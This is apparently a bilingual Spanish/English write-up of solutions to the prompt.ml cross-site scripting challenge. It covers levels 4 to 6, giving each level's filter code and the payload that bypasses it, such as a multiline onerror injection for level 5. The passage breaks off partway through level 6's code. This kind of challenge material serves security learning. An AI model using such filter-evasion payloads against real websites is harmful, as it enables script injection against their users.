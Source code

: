 ### Solution
`https://prompt.ml%2f@14.rs`

### Note
This won't work in Chrome as it's fixed, but on Firefox does work.

>[Top](#index)

## [Level 5]
:es: En este quinto nivel, tenemos un regex que evita que usemos `>`, cualquier tipo de `onload=` `onresize=` y cualquier `focus`, sustituyéndolos por `_`.

Además transforma el input a `text`, pero podemos cambiarlo a `image`, ya que siempre utilizará el primero que encuentre, descartando los demás.

Este regex no comprueba bien los multilínea, por lo que simplemente haciendo un salto de linea podemos escribir cosas tipo `onload<br>=`.

:uk: We have a regex which foils usage of `>`, every type of `onload=`, `onresize=` and `focus`, substituting them with `_`.

Also it sets the type to `text`, but we can change this type because the broswer will get the first one it sees, discarding next ones.

This regex won't check multilines, so we can just use breaks to hide the `onload<br>=` and such.

### Code
```
function escape(input) {
    // apply strict filter rules of level 0
    // filter ">" and event handlers
    input = input.replace(/>|on.+?=|focus/gi, '_');

    return '<input value="' + input + '" type="text">';
}       
```

### Solution
```
type=image src=x onerror
="prompt(1)
```

>[Top](#index)

## [Level 6]
:es: Haciendo DOM clobbering, "sobreescribimos" el value de `action` con `1`, con lo que ya podemos ejecutar lo que tenemos en `javascript:prompt(1)`

:uk: Doing DOM clobbering, we change the action value, thus we can execute the command.

### Code
```
function escape(input) {
    // let's do a post redirection
    try {
        // pass in formURL#formDataJSON
        // e.g. http://httpbin.org/post#{"name":"Matt"}
        var segments = input.split('#');
        var formURL = segments[0];
        var formData = JSON.parse(segments[1]);

        var form = document.createElement('form');
        form.action = formURL;
        form.method = 'post';
```

[Level 0]: http://prompt.ml/0
[Level 1]: http://prompt.ml/1
[Level 2]: http://prompt.ml/2
[Level 3]: http://prompt.ml/3
[Level 4]: http://prompt.ml/4
[Level 5]: http://prompt.ml/5
[Level 6]: http://prompt.ml/6
[Level 7]: http://prompt.ml/7
[Level 8]: http://prompt.ml/8
[Level 9]: http://prompt.ml/9
[Level A]: http://prompt.ml/10
[Level B]: http://prompt.ml/11
[Level C]: http://prompt.ml/12
[Level D]: http://prompt.ml/13
[Level E]: http://prompt.ml/14
[Level F]: http://prompt.ml/15